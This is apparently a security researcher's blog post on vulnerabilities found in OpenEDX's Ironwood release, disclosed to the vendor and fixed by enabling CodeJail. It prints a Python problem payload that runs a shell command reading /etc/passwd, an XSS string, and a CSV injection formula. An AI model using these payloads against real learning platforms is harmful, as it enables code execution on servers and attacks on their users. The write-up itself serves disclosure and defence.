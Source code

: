 ```yaml
---
layout: post
title: How I found a Remote Code Execution in OpenEDX
---
```


**How I found a Remote Code Execution in OpenEDX**

![alt text](https://media-exp1.licdn.com/dms/image/C4D0BAQEImBWi8mCV9w/company-logo_200_200/0?e=1597881600&v=beta&t=3TJtPgE49E8s9Ox3X3h15mgb4Ls8vjX9_VL5DX9HkqY "Logo Title Text 1")

OpenEDX platform is really cool Learning Management System, which is also Open source (this time I was testing the Ironwood release 2.5). You can check it out here: <https://open.edx.org/the-platform/> When I was using it, I decided to check for their security. So I followed my normal approach: first mapping the app, writing down which functionalities it had, blackbox testing, and then whitebox.

As you can see here: <https://github.com/edx/edx-platform> the whole platform is written in Python (in which I don’t have many experience reviewing code). So I decided to go completely blackbox this time. As I really needed to know all the functionalities in depth, I went to the official documentation:

**https://edx.readthedocs.io/projects/open-edx-building-and-running-a-course/en/latest/index.html**

![alt text](https://pic.accessify.com/thumbnails/777x423/d/docs.edx.org.png "test")

So after some time digging in the docs I found this:
![ssdsd](https://i.imgur.com/HUdrMOi.png)

So it turns out that if you create an account in the OpenEDX platform instance and go to the Studio, create a Course, Create a Unit in the course and add a Problem. And if you choose Custom Python-Evaluated problem and use a payload such as:
~~~~
<problem>

<script type="python">
def test_add(expect,ans):
    os.system("cat /etc/passwd > /tmp/test_rce")
    
</script>

<p>Problem text</p>
<customresponse cfn="test_add" expect="20">
        <textline size="10" correct_answer="11" label="Integer #1"/><br/>
        <textline size="10" correct_answer="9" label="Integer #2"/>
</customresponse>

    <solution>
        <div class="detailed-solution">
          <p>Solution or Explanation Heading</p>
          <p>Solution or explanation text</p>
        </div>
    </solution>
</problem>
~~~~

And click the Submit button, you can execute code in the machine.


![alt text](https://s6.gifyu.com/images/openedx-rce.gif "whatever")

So when I discovered this, I contacted EDX’s security team and they told me that there is a mitigation for this kind of issues, but it is not enabled by default:

**https://github.com/edx/codejail**

Apart from this vulnerability I also found a stored XSS. In EDX STUDIO&gt;CONTENT&gt; FILE UPLOADS&gt; Upload an SVG XSS file. And also 2 more XSS:

1) EDX STUDIO&gt;COURSENAME&gt;CONTENT&gt; UPDATES &gt; Press the edit button and replace the default thing with &lt;img src=x onerror=alert(0)&gt;

2) Finally in EDX STUDIO&gt;COURSENAME&gt;SETTINGS&gt;

Finally I found a CSV injection as well:

Course &gt;Instructor&gt;Cohorts&gt;Add cohort with the payload (ex: =cmd|' /C notepad'!'A1')&gt;Add your user to the cohort
Course&gt;Data Downloads&gt;Reports&gt;Download profile info as CSV&gt;The file is generated below, open in Excel 2016, Data&gt;Import data from file&gt;Choose CSV&gt;Using comma as delimiter.

So, that was all for today. Please make sure you enable CodeJail while using OpenEDX platform. Thanks for reading the post ;)
